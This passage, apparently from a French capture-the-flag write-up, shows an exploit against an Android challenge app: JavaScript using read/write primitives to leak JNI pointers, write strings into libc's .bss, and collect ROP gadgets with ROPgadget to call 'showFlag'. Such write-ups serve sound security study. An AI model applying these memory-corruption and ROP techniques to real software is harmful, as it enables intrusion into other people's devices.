 ```javascript
// get jniEnv and this
JNI_env = unpack64(read(RBP-0x60)); // vu dans IDA
this_ptr = unpack64(read(RBP-0x68)); // vu dans IDA
console.log("JNI_env : "+JNI_env.toString(16));
console.log("this_ptr : "+this_ptr.toString(16));
```

Ceci fournit le résultat suivant :

```
08-03 20:40:08.152  9143  9143 I chromium: [INFO:CONSOLE(104)] "JNI_env : 7860e9512af0", source:  (104)
08-03 20:40:08.153  9143  9143 I chromium: [INFO:CONSOLE(105)] "this_ptr : 785fce295c54", source:  (105)
```

### Positionner les derniers arguments

Les dernières choses dont nous avons besoin sont :

1. Un pointeur sur le nom de la fonction que nous voulons appeler : "showFlag".
2. Un pointeur sur la signature de la fonction que nous voulons appeler : "()V".

Puisque de telles chaînes ne sont pas définies dans le binaire, nous devrons les écrire nous-mêmes quelque part. Pour cela, nous allons utiliser notre primitive d'écriture, mais nous devons d'abord trouver une région de mémoire inscriptible suffisamment grande.

La `.bss` de libtridroid aurait été un bon choix mais elle est malheureusement trop petite. Nous avons donc décidé de regarder la `.bss` de la libc à la place. Cette fois-ci, elle est suffisamment grande pour que nous choisissions des adresses arbitraires en son sein : `0xD9510` et `0xD9530`.

A `0xD9510` nous allons écrire `"()V\x00"` et à `0xD9530` `"showFlag\x00"` :

```javascript
// write "showFlag" in libc
write(libc_base + 0xD9530, '73686F77466C616700');
// write "()V" in libc
write(libc_base + 0xD9510, '28295600');
```

### Construction de la ROP chain

Maintenant que nous avons tout ce qui est nécessaire pour construire la ROP chain, il ne nous reste plus qu'à trouver des gadgets.

D'après les conventions d'appel, les 4 premiers agruments sont stockés dans `RDI`, `RSI`, `RDX` et `RCX` respectivement.

Pour cela, nous avons utilisé [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) :

```
ROPgadget --binary libc.so > gadgets.txt
```

Heureusement, il existe des gadgets simples pour configurer nos registres :

```
$ grep ": pop rdi ; ret$" gadgets.txt 
0x0000000000042c92 : pop rdi ; ret
$ grep ": pop rsi ; ret$" gadgets.txt 
0x0000000000042d38 : pop rsi ; ret
$ grep ": pop rdx ; ret$" gadgets.txt 
0x0000000000046175 : pop rdx ; ret
$ grep ": pop rcx ; ret$" gadgets.txt 
0x0000000000042e58 : pop rcx ; ret
```
